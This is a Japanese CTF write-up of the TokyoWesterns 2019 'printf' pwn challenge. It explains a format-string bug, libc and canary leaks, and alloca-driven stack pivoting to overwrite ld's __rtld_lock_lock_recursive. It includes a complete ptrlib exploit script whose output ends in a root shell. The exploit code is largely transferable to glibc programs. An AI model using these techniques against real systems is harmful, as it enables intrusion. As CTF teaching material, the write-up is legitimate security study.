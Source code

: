 # [pwn 216pts] printf - TokyoWesterns CTF 5th 2019
64ビットバイナリで、全部有効です。
```
$ checksec -f printf
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   No Symbols      Yes     0               3       printf
```
IDAで解析すると、2回printfに入力が突っ込まれるのでFSBがあります。しかし、どちらも自作のprintf関数が使われています。printf関数は流石に解析が難しいですが、ざっと読むとx,c,sあたりが使える他l,lh,llhによるサイズの変更もできそうです。また、最初にフォーマット文字列を解析し、必要なバッファのサイズを計算してsizeに足していきます。最後まで解析すると、sizeに1を足してallocaでバッファを確保します。そして同じようにフォーマット文字列を解析してバッファに書き込んでいき、最後にputsで出力します。
とりあえずまずはlibcのアドレスをリークしましょう。

```python
sock.recvline()
sock.sendline("%lx.%lx." * 24)
sock.recvline()
x = sock.recvline().split(b".")
libc_base = int(x[42], 16) - libc.symbol("__libc_start_main") - delta
canary = int(x[40], 16)
logger.info("libc = " + hex(libc_base))
logger.info("canary = " + hex(canary))
```

直接引数を指定できない点を除けばこれは普通のFSBと同じです。
```
$ python solve.py 
[+] __init__: Successfully created new process (PID=27656)
[+] <module>: libc = 0x7fcc1f462000
[+] <module>: canary = 0xd1c04bf8da7bb500
```

さて、問題は%nが使えないので書き込めないということです。適当に試すと気になる動作がありました。
```
$ ./printf
What's your name?
%9999999999999x
Hi, 
Segmentation fault (コアダンプ)
```

%3735928559xとしてallocaの部分で止めてみましょう。すると、sizeが0xdeadbef0になっていました。つまり、%の後の数字の分だけsizeを確保してくれるようです。allocaではsizeを適当にalignした後`sub rsp, rax`するので、これを使えばrspを自由な場所に調整できそうです。
しかし、raxが負の値だとexitされてしまいます。したがって、リターンアドレスを書き換えるようなことはできないので、今回はlibcの中の何かを書き換えることでシェルを取りましょう。

`__exit_funcs`を書き換えればいっかなーと思ったのですが、最近のlibcは`PTR_DEMANGLE`とかいうのでポインタがXORされてるので今回は書き換えられないです。ldの方なのであまり使いたくないですが、今回は`__rtld_lock_lock_recursive`を使います。

これで無事にRIPをコントロールできるのですが、条件的にone gadgetが実行できません。ということで、一回目は`_start`のアドレスを書いておき、二週目でrdiにあたる`GL(dl_load_lock)`を`/bin/sh`にセットし、三週目で`system`関数を`__rtld_lock_lock_recursive`に代入しましょう。

```python
from ptrlib import *

#"""
#libc = ELF("./libc.so.6")
#ld = ELF("./ld-linux-x86-64.so.2")
#sock = Socket("printf.chal.ctf.westerns.tokyo", 10001)
libc = ELF("./my_libc-2.29.so")
ld = ELF("./my_ld-2.29.so")
sock = Socket("localhost", 9999)
delta = 0xeb + 8
dl_load_lock = ld.symbol("_rtld_global") + 2312
rtld_lock_lock_recursive = ld.symbol("_rtld_global") + 3848
ld_offset = 0x1fa000
"""
libc = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")
ld = ELF("/lib/x86_64-linux-gnu/ld-2.27.so")
sock = Process("./printf")
delta = 0xe7
dl_load_lock = ld.symbol("_rtld_global") + 2312
rtld_lock_lock_recursive = ld.symbol("_rtld_global") + 3840
ld_offset = 0x3f1000
#"""

## Stage 1
# leak info
sock.recvline()
sock.sendline("%lx.%lx." * 24)
sock.recvline()
x = sock.recvline().split(b".")
addr_stack = int(x[39], 16)
proc_base = int(x[41], 16) - 0x2a40
libc_base = int(x[42], 16) - libc.symbol("__libc_start_main") - delta
ld_base = libc_base + ld_offset
logger.info("stack = " + hex(addr_stack))
logger.info("proc = " + hex(proc_base))
logger.info("libc = " + hex(libc_base))
logger.info("ld = " + hex(ld_base))
# overwrite __rtld_lock_lock_recursive
payload = str2bytes('%{}x'.format(addr_stack - ld_base - rtld_lock_lock_recursive - 0x388))
payload += p64(proc_base + 0x10d0) # _start
sock.recvline()
sock.sendline(payload)
sock.recvline()

## Stage 2
sock.recvline()
sock.sendline("Hello, World!")
sock.recvline()
# overwrite dl_load_lock
payload = str2bytes('%{}x'.format(addr_stack - ld_base - dl_load_lock - 0x388 - 0x190))
payload += b"sh;sh;" # /bin/sh
sock.recvline()
sock.sendline(payload)
sock.recvline()

## Stage 3
sock.recvline()
sock.sendline("Hello, World!")
sock.recvline()
# overwrite __rtld_lock_lock_recursive
payload = str2bytes('%{}x'.format(addr_stack - ld_base - rtld_lock_lock_recursive - 0x388 - 0x190 - 0x190))
payload += p64(libc_base + libc.symbol("system")) # system
sock.recvline()
sock.sendline(payload)
sock.recvline()
sock.recvline()
sock.recvline()

sock.interactive()
```

ld-linuxの問題で本番環境では動きませんでしたが、直すの面倒なのでこれでいいことにします。
```
$ python solve.py 
[+] __init__: Successfully connected to localhost:9999
[+] <module>: stack = 0x7fff2f8e0ec0
[+] <module>: proc = 0x56314e1f1000
[+] <module>: libc = 0x7f54a607b000
[+] <module>: ld = 0x7f54a6275000
[ptrlib]$ whoami
root
```

[追記] libc-2.29は`_IO_jump_t`が書き込みできるようになっているらしく、それを使うともっとちゃんと解けるみたいです。

# 感想
解き方はいろいろありますね。
